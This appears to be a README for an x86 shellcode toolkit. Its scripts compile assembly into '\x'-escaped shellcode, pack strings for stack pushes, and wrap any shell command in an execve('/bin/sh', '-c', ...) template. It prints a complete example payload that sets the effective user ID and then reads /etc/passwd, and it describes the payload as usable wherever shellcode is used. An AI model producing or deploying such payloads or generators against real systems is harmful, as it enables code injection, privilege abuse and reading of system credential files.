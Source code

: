 reversingtools - x86
====================
x86 Tools and Scripts

<strong>comp_and_dump.sh</strong> - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with the '\x' character in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test)
<strong>packWord.pl</strong> - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)
<strong>doshcommandinssembly.pl</strong> - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

Example: ./doshcommandinassembly.pl /bin/cat /etc/passwd & ./comp_and_dump.sh<br>
Output: \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80<br>
The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen
